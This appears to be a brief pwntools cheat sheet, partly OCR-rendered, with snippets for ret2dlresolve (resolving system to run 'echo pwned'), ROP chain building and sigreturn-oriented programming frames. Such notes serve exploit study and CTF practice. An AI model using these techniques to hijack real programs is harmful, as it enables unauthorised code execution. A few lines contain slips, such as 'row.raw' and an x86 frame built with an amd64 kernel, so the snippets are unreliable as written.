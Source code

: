 ## Return to dl_resolve
```py
>> rop = ROP(context.binary)
>>> dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
>>> rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
>>> rop.ret2dlresolve(dlresolve)
>>> raw_rop = rop.chain()
>>> # sendline(dlresolve.payload)
```

## Return oriented programming
```py
>>> rop = ROP(binary)
>>> rop.eax = 0xdeadf00d
>>> rop.ecx = 0xc01dbeef
>>> row.raw = 0xffffffff
```

```py
>>> rop.call('read', [4,5,6])
>>> rop.write(7, 8, 9)
```

```py
rop = ROP(elf, badchars=b'\x02\x06')
```

## Sigreturn oriented programming
### x64
```py
>>> frame = SigreturnFrame()
>>> frame.rax = constants.SYS_write
>>> frame.rdi = constants.STDOUT_FILENO
>>> frame.rsi = binary.symbols['message']
>>> frame.rdx = len(message)
>>> frame.rsp = 0xdeadbeef
>>> frame.rip = binary.symbols['syscall']
>>> p = process(binary.path)
>>> p.send(bytes(frame))
>>> p.recvline()
b'Hello, World\n'
>>> p.poll(block=True)
0
```

### x86
```py
>>> frame = SigreturnFrame(kernel='amd64')
>>> frame.eax = constants.SYS_write
>>> frame.ebx = constants.STDOUT_FILENO
>>> frame.ecx = binary.symbols['message']
>>> frame.edx = len(message)
>>> frame.esp = 0xdeadbeef
>>> frame.eip = binary.symbols['syscall']

>>> p = process(binary.path)
>>> p.send(bytes(frame))
```
